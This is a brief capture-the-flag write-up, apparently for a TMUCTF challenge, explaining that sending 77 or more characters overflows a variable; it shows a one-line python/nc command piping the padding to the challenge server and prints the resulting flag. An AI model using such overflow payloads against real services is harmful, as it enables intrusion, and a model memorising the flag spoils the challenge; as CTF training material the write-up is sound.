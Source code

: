 This challenge was a simple overflow. You just had to give 77 or more chars as input in order to overwrite the variable inside the code and get the flag!  
```bash
python2.7 -c "print 'A'*77" | nc 194.5.207.56 7000
```   
The flag:   
```
TMUCTF{n0w_y0u_4r3_w4rm3d_up}
```
